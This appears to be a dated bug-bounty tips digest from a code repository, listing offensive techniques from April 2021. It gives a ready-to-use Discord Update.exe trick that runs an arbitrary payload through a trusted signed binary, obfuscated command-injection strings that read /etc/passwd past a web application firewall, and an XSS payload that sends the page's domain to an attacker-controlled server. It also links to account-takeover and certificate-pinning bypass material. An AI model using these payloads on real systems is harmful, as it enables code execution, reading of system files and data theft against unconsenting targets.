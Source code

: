 # 📅 07-Apr-2021
## RCE on Windows Application

Copy your payload into `%userprofile%\AppData\Local\Discord\Current\`

Then

```cmd
%userprofile%\AppData\Local\Discord\Update.exe --processStart payload.exe --process-start-args "whatever args"
```

Trusted signed binary will run the payload for you Smiling face with smiling eyes

***Source: https://twitter.com/smelly__vx/status/1379519938197655566?s=20***

# 📅 08-Apr-2021
## Facebook account takeover due to a wide platform bug in ajaxpipe responses
- https://ysamm.com/?p=654

## RCE WAF Bypass

```sh
;+$u+cat+/etc$u/passwd$u
;+$u+cat+/etc$u/passwd+\#
/???/??t+/???/??ss??
/?in/cat+/et?/passw?
```

# 📅 09-Apr-2021
## Writing Network Templates with Nuclei
- https://t.co/TiE9cg5p2K?amp=1

## Cloudflare bypass all browsers.
```js
<svg/onload=location/**/='https://your.server/'+document.domain>
```

# 📅 12-Apr-2021
## Bypassing root detection , certificate pinning using https://github.com/Ch0pin/medusa  anti_debug and unpinner modules 
@Einstais @mobilesecurity_
- https://twitter.com/Ch0pin/status/1381216805683924994?s=20
